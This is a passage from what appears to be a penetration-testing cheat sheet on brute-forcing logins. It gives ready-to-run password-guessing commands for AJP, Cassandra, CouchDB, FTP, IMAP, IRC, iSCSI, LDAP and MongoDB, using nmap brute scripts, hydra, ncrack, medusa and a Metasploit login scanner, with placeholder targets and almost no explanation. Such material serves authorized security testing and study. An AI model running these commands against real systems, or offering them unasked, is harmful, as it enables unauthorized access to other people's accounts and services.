 AJP[](#ajp)

nmap --script ajp-brute -p 8009 <IP>

### 

Cassandra Apache[](#cassandra-apache)

nmap --script cassandra-brute -p 9160 <IP>

### 

CouchDB[](#couchdb)

msf> use auxiliary/scanner/couchdb/couchdb_login

### 

FTP[](#ftp)

hydra -l root -P passwords.txt [-t 32] <IP> ftp

ncrack -p 21 --user root -P passwords.txt <IP> [-T 5]

medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp

### 

IMAP[](#imap)

hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V

nmap -sV --script imap-brute -p <PORT> <IP>

### 

IRC[](#irc)

nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>

### 

ISCSI[](#iscsi)

nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>

### 

LDAP[](#ldap)

nmap --script ldap-brute -p 389 <IP>

hydra -L users.txt -P passwords.txt $ip ldap2 -V -f

### 

Mongo[](#mongo)

nmap -sV --script mongodb-brute -n -p 27017 <IP>

### 
